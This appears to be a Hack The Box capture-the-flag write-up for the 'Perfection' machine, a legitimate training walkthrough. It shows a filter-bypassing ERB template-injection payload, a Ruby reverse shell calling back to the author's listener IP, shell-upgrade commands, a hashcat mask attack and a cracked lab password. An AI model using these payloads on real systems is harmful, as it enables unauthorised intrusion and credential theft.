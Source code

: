 ```yaml
---
date: 2024-07-04T14:05:10-05:00
# description: ""
image: "/images/HTB-Perfection/Perfection.png"
showTableOfContents: true
tags: ["HackTheBox"]
categories: ["Writeups"]
title: "HTB: Perfection"
type: "post"
---
```


* Platform: Hack The Box
* Link: [Perfection](https://app.hackthebox.com/machines/Perfection)
* Level: Easy
* OS: Linux
---

Perfection begins with a straightforward website. Through enumeration, we identify a vulnerability to Server-Side Template Injection (SSTI), which we exploit to gain an initial foothold. We then discover a database file containing password hashes, but our initial attempts to crack them are unsuccessful. After reading the user's emails, we learn that the passwords follow a specific format. Using this information, we employ a mask attack with Hashcat and successfully recover the password. This allows us to run `sudo -l` and discover that the sudo rules are highly permissive, enabling us to escalate our privileges without needing a password.

Target IP address - `10.10.11.253`

## Scanning

```
nmap -sC -sV -oA  nmap/Perfection 10.10.11.253
```

**Results**

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-25 14:20 CDT
Nmap scan report for 10.10.11.253
Host is up (0.051s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.06 seconds
```

## Enumeration

The website is a "a tool to calculate the total grade in a class based on category scores and percentage weights."

The `Calculate your weighted grade` page lets you use the tool.

![Calculate your weighted grade table](/images/HTB-Perfection/weighed-grade.png)

After filling the table and submitting the grades, we get some weighted grades.

![Weighted grades](/images/HTB-Perfection/weighed-grade-results.png)

In the footer we notice that the application is using `WEBrick 1.7.0`. 

![Website powered by WEBrick 1.7.0](/images/HTB-Perfection/WEBrick.png)

Searching for vulnerabilities related to this specific version is inconclusive. Attempting directory brute forcing, subdomain, and source code enumeration leads to the same outcome.

Using the `Wappalyzer` extension reveals that the application is using `Ruby 3.0.2`.

![Wapplyzer results](/images/HTB-Perfection/wappalyzer.png)

Since the application accepts user input we can try some injections attacks. Let's refill the table, capture the request with Burp Suite and send it to the repeater.

The first test is with `; ls` as the value for `category1`.

![Request in Burp for injection attack](/images/HTB-Perfection/injection-attack.png)

It returns `Malicious input blocked`. Trying various payloads create the same result, there is an input filter that we need to bypass.

![Injection blocked](/images/HTB-Perfection/injection-blocked.png)

On the `WEBrick` github page, we learn that it can handle different things. *Read more [here](https://github.com/ruby/webrick).*

![WEBrick github page](/images/HTB-Perfection/WEBrick-github.png)

We also learn that ERB is a templating system for Ruby. *Read more [here](https://github.com/ruby/erb).*

![ERB-template page](/images/HTB-Perfection/ERB-template.png)

Being unfamiliar with those technologies I ask ChatGPT how to check if a server is using the Ruby ERB templating system. We will use the third option.

![ERB tests](/images/HTB-Perfection/ERB-test.png)

## Initial Foothold

Trying the payload provided, I get the message: 

`Invalid query parameters: invalid %-encoding (&amp;lt;%= 2 + 2 %&amp;gt;)`.

After a few modifications the payload successfully works! The filter can be bypassed by using `%0A` (for a new line) and URL-encoding.

> Payload used for the test: `%0A<%25%3d+2+%2b+2+%25>`

![Successful SSTI test](/images/HTB-Perfection/SSTI-working.png)

This confirms that the target is vulnerable to [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby) and is indeed using Ruby ERB. This means that we can execute a reverse shell and gain a foothold.

Below is the payload (ruby) used to get a reverse shell, it is from [revshells](https://www.revshells.com/).

**Full payload used for the reverse shell**

```
Chemistry%0A<%25%3d+`ruby+-rsocket+-e'spawn("sh",[%3ain,%3aout,%3aerr]%3d>TCPSocket.new("10.10.15.4",1337))'`+%25>
```

![Ruby reverse shell](/images/HTB-Perfection/ruby-revshell.png)

We are able to access the system and are connected as the user `susan`. We upgrade the shell with the commands below.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'  
export TERM=xterm  
ctrl + z  
stty raw -echo; fg
stty rows 38 columns 116
```

![Foothold](/images/HTB-Perfection/foothold.png)

The user flag is found in `/home/susan`.

![User flag location](/images/HTB-Perfection/user-flag.png)

## Privilege Escalation

We use `linpeas.sh` to find privilege escalation paths and find some useful information.

* `susan` is a sudoer

![User susan is a sudoer](/images/HTB-Perfection/susan-sudoer.png)

* credentials files are found

![Credentials files are found](/images/HTB-Perfection/susan-credentials.png)

* The user also has some mail, which might be worth checking out

![The user has some mail](/images/HTB-Perfection/susan-mail.png)


Running `sudo -l` requires a password.

![sudo -l requires password](/images/HTB-Perfection/susan-privesc.png)

The credentials file give us some users hashes including `susan`'s.

```
strings /home/susan/Migration/pupilpath_credentials.db
```

![susan hash](/images/HTB-Perfection/susan-hash.png)

```
hashid 'abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f'
```

Running `hashid` reveals that this is a SHA-256 hash. Using hashcat on the hash fails, it seems that it cannot be cracked yet.

After reading the mail we find the password structure.

![Reading susan mail](/images/HTB-Perfection/susan-mail1.png)

We try a mask attack and successfully recover the password `susan_nasus_413759210`.

> In a mask attack we know about the passwords designs. You can learn more about it [here](https://hashcat.net/wiki/doku.php?id=mask_attack#mask_attack).

```
hashcat -m 1400 hash.txt -a 3 -d 1 susan_nasus_?d?d?d?d?d?d?d?d?d
```

![Reading susan mail](/images/HTB-Perfection/password-recovered.png)

With that password we log in with SSH. Running `sudo -l` we see that we have a straight path to root.

![sudo -l command](/images/HTB-Perfection/sudo-l.png)

We have a very permissive rule allowing the user `susan` to run any command, as any user or group which effectively gives them full administrative control when using `sudo`. 

By running `sudo su` we get a root shell and find the root flag in `/root`.

![root flag](/images/HTB-Perfection/root-flag.png)

Thanks for reading my blog and I hope this write up was helpful to you!
